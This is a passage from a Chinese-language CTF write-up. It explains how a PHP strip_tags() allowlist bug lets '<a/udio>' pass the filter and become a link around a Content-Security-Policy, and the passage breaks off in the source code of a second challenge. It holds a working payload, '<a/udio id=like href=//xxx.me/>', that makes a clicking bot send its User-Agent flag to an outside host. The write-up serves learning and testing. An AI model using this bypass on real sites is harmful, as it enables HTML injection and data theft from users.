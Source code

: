 功能是点击id为like的标签，flag在浏览器UA里。

在content字段中可以插入html标签，

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_576_/t013574e830f7c6027d.png)

但有过滤，只允许`&lt;audio&gt;`标签。

```
// [[URL]] → &lt;audio src="URL"&gt;&lt;/audio&gt;
function render_tags($str) {
  $str = preg_replace('/[[(.+?)]]/', '&lt;audio controls src="\1"&gt;&lt;/audio&gt;', $str);
  $str = strip_tags($str, '&lt;audio&gt;'); // only allows `&lt;audio&gt;`
  return $str;
}
```

而`&lt;audio&gt;`受以下CSP的限制，无法跨域请求:

```
default-src 'self'; object-src 'none'; script-src 'nonce-WDUi2CFdH+uvn+zBovdIQQ==' 'strict-dynamic'; base-uri 'none'; trusted-types
```

网站提供的功能不多，没有可以可以用来绕过CSP进行XSS的点。

搜索之后发现，`strip_tags()`这个函数1是有问题的：[https://bugs.php.net/bug.php?id=78814](https://bugs.php.net/bug.php?id=78814)

它允许标签里出现斜线，猜测这是为了匹配闭合标签的。但是没有判断斜线的位置，在哪出现都可以：

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_95_/t01c44dd16c2fad4eaf.png)

显然`&lt;a/udio&gt;`在浏览器里会解析成`&lt;a&gt;`标签，而超链接的跳转是不受CSP限制的。

所以我们的payload如下：

```
&lt;a/udio id=like href=//xxx.me/&gt;
```

在浏览器里解析出来是：

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_464_/t01aa09cfff0a124ecf.png)

bot点击id为like的标签就会带出flag。

这题不能算XSS，实质还是Dom Clobbering，通过注入看似无害的标签和属性来影响页面的正常功能。

### <a class="reference-link" name="phpNantokaAdmin"></a>phpNantokaAdmin

题目源码：<br>
index.php

```
&lt;?php
include 'util.php';
include 'config.php';

error_reporting(0);
session_start();

$method = (string) ($_SERVER['REQUEST_METHOD'] ?? 'GET');
$page = (string) ($_GET['page'] ?? 'index');
if (!in_array($page, ['index', 'create', 'insert', 'delete'])) {
  redirect('?page=index');
}

$message = $_SESSION['flash'] ?? '';
```